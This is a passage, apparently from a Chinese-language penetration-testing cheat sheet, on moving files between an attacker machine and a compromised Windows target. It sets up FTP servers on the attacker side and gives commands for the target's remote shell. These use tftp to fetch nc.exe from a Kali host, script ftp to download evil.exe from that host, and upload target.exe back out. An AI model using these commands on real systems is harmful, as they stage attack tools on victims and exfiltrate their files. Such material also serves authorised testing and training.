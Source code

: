 - **目标机**
    ```bash
    tftp -i <kali-ip> GET nc.exe
    ```

**ftp**

- **攻击端**
    ```bash
    apt-get install pure-ftpd

    groupadd ftpgroup
    useradd -g ftpgroup -d /dev/null -s /etc ftpuser
    pure-pw useradd username -u ftpuser -d /ftphome
    pure-pw mkdb
    cd /etc/pure-ftpd/auth/
    ln -s ../conf/PureDB 60pdb
    mkdir -p /ftphome
    chown -R ftpuser:ftpgroup /ftphome/
    /etc/init.d/pure-ftpd restart
    ./setup-ftp(输入要设置的密码)
    ```

    攻击端使用 python 起 ftp:
    ```
    apt-get install python-pyftpdlib
    mkdir /ftp
    cd /ftp/
    python -m pyftpdlib -p 21
    ```
    此时目标机连接的时候,用户名为 anonymous,密码随意

- **目标机**
    目标机的远程 shell 上运行
    ```bash
    echo open <kali-ip> 21> ftp.txt
    echo username>> ftp.txt
    echo password>> ftp.txt
    echo bin >> ftp.txt
    echo GET evil.exe >> ftp.txt
    echo bye >> ftp.txt
    ftp -s:ftp.txt
    ```

    目标机上传文件(连接状态):
    ```bash
    ftp> put target.exe(如果是 windows 且文件在其他盘,需使用绝对路径)
    ```

    关闭 ftp:
    ```bash
    /etc/init.d/pure-ftpd stop
    ```

    windows下
    ```
    ftp
    username
    password
    get file
    exit 或者 bye
    ```
    ```
    ftp -s:test.txt
    ```
